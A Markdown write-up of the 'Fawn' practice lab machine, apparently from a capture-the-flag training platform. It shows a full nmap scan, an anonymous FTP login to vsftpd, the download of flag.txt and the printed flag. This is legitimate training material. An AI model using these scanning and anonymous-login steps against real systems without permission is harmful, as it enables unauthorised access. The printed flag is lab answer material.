


# Fawn - Machine Writeup

## Machine Info
- Machine: Fawn
- OS: Linux

---

## 1. Reconnaissance

Ran an initial nmap scan against the target IP to find open ports and running services:

```bash
sdheeraj@fedora:~$ sudo nmap -sV -sC -O 10.129.212.216
[sudo] password for sdheeraj: 
Starting Nmap 7.92 ( https://nmap.org ) at 2026-10-08 08:49 IST
Nmap scan report for 10.129.212.216
Host is up (0.25s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.79
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/8%OT=21%CT=1%CU=35138%PV=Y%DS=2%DC=I%G=Y%TM=6AC70CC
OS:A%P=x86_64-redhat-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11N
OS:W7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=FE88
OS:%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552
OS:NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R
OS:=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=
OS:AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=
OS:40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 248.36 seconds

```

Observation: Port 21/tcp is open running vsftpd 3.0.3 on Unix. The default nmap scripts already flagged that anonymous FTP login is permitted and showed `flag.txt` in the root directory.

---

## 2. Enumeration

FTP (File Transfer Protocol) runs unencrypted by default on port 21 (unlike SFTP which tunnels over SSH on port 22). When a server allows anonymous logins, you can connect using the username `anonymous` with any password or a blank password.

Checked the ftp client options with `ftp -?` and connected to the target.

---

## 3. Exploitation

Connected using the ftp client and authenticated as anonymous:

```text
sdheeraj@fedora:~$ ftp 10.129.212.216
Connected to 10.129.212.216 (10.129.212.216).
220 (vsFTPd 3.0.3)
Name (10.129.212.216:sdheeraj): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -la
227 Entering Passive Mode (10,129,212,216,55,34).
150 Here comes the directory listing.
drwxr-xr-x    2 0        121          4096 Jun 04  2021 .
drwxr-xr-x    2 0        121          4096 Jun 04  2021 ..
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.

ftp> get flag.txt
local: flag.txt remote: flag.txt
227 Entering Passive Mode (10,129,212,216,198,154).
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00139 secs (22.99 Kbytes/sec)
```

Viewed the downloaded file contents locally:

```bash
sdheeraj@fedora:~$ cat flag.txt
035db21c881520061c53e0536e44f815
```

---

## 4. Flag

```text
035db21c881520061c53e0536e44f815
```

Proof of completed machine:


Solving:


